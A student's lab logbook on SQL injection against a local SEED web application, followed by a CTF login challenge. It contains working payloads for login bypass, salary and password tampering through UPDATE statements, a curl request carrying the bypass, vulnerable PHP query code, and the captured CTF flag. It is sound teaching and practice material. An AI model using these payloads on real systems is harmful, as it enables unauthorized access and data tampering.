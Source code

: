 # SQL Injection

### Preparation

For this Lab we will be using 2 docker containers:

* One to host our web application
* One to host the database used by said application

Then we mapped the container's IP address to the URL of the web application by adding this line to the /etc/hosts file

```
10.9.0.5 www.seed-server.com
```

### The Web application

the web application, we'll be using has 2 types of users with different privilleges:

* Employee : can only manage their own profile information
* Administrator : can manage every employee's profile information

![Alt text](images/logbook8/image.png)


## Task 1: Get Familiar with SQL statements

After running dcbuild and dcup to get the docker containers running, we have access to the database created in the container 4a12f793dd50.

![Alt text](images/logbook8/image-1.png)

And are able to query the database as such:

![Alt text](images/logbook8/image-alice.png)


## Task 2: SQL Injection Attack On Select Statement

For this task our goal is to login into an employee account abusing the sql injection vulnerability on the website www.seed-server.com.

This page uses this snippet of code to authenticate users:

```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);

// The following is Pseudo Code

if(id != NULL) {
if(name==’admin’) {
return All employees information;
} else if (name !=NULL){
return employee information;
}
} else {
Authentication Fails;
}

```

### Task 2.1: SQL Injection from webpage

For this task we need to login into the admin account without knowing their password.
We're assuming the username to be Admin.

Since the $input_uname user input is not handled properly, all there is to do is put a start comment line character after writing the username, this will comment the part of the query that would require a password to enter the account and therefore allowing us to access the admin account without the password

``` SQL
Admin' -- 
```
![Alt text](images/logbook8/image-2.1.png)


### Task 2.2: SQL Injection from control Line

For this task, we followed the same logic we used on Task 2.1. However, instead of writing the sql injection in the login form present in the web application we used the curl command to send the equivalent http request

``` 
curl 'www.seed-server.com/unsafe_home.php?username=admin%27%20--%20'

```

![Alt text](images/logbook8/image-2.2.png)

### Task 2.3: Append a new SQL statement

Since the php code is only expecting a query, it will run the sql code until it finds a ';' therefore making it impossible to append multiple SQL statements.

![Alt text](images/logbook8/image-2.3.png)

## Task 3

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
$conn->query($sql);
```

### Task 3.1 Change your own salary

For this task we want to change our own salary after being logged in.

All we need to do is introduce the salary = 999999 in the update statement, which we can do by closing the single quote after the nickname and adding an extra parameter to the update statement.

If we use the nickname input field to do that what we want to achieve is something like this nickname='**Alice',salary='10**', email= ...

We could also use  --  and comment the rest of the update statement, but that would change the salary of every employee in the enterprise, since it would ignore the ID = $id constraint.

Input:

```
Alice',salary='10
```
![Alt text](images/logbook8/image-3.1.png)


### Task 3.2 Change the boss's salary

This task is pretty much the same as the last one however for this one we will have to comment the rest of the update statement after adding the clause to make sure we're only reducing the salary of our boss.

Input:

```
Alice', salary=1 where Name='Admin' -- 
```

![Alt text](images/logbook8/image-3.2.png)

### Task 3.3 

This task follows the pattern of the last 2 however, this time we need to encode the password of our choice, beforehand.

Input:
```
Alice', password=sha1('FSI') where Name = 'Boby' -- 
```

![Alt text](images/logbook8/image-3.3.png)


## CTF

In the port 5003 of the ctf.fsi.fe.up.pt server we found a login form to access a website. We were also given the source code of the login query, which is as follows:

``` php
            if (!empty($_POST)) {

               require_once 'config.php';

               $username = $_POST['username'];
               $password = $_POST['password'];
               
               $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
                                     
               if ($result = $conn->query($query)) {
                                  
                  while ($data = $result->fetchArray(SQLITE3_ASSOC)) {
                    $_SESSION['username'] = $data['username'];
           
                    echo "<p>You have been logged in as {$_SESSION['username']}</p><code>";
                    include "/flag.txt";
                    echo "</code>";

                 }
               } else {            
                   // falhou o login
                   echo "<p>Invalid username or password <a href=\"index.php\">Tente novamente</a></p>";
               }
            }
```

Firstly we noted that to obtain the flag we only needed to login.

We also realized the login query is vulnerable to SQL Injection since it does not use prepared statements, allowing us to alter the query with our input.


From the original query,

```php 
$query = "SELECT username 
          FROM user 
          WHERE username = '".$username."' AND password = '".$password."'";
```

Our objective is to transform into this:

```sql 
SELECT username
FROM user 
Where username = 'admin' -- AND password = '';
```
If we can change the query like so, sql will ignore the password validation, logging in directly into the admin account.

The input we used
* Login: admin' -- 
* Password: random


![Alt text](images/logbook8/ctf.png)

flag{43d5fdd90c81bd55437f26db9b33c1e4} 